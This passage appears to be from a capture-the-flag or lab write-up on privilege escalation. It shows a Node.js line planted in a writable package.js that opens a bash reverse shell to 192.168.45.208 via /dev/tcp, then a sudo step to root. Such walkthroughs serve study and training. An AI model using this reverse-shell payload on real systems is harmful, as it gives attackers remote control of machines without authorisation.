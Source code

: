 It uses a `package.js` file from `/var/www/node`, a directory we have write access over as `www-data`. We can create a `package.js` file like this:

```javascript
require('child_process').exec("bash -c 'bash -i >& /dev/tcp/192.168.45.208/80 0>&1'")
```

Then, we can just wait for the shell to execute.&#x20;

<figure><img src="../../../.gitbook/assets/image (1771).png" alt=""><figcaption></figcaption></figure>

The user is part of the `sudo` group, and it is trivial to become the `root` user:

<figure><img src="../../../.gitbook/assets/image (1360).png" alt=""><figcaption></figcaption></figure>

Rooted!
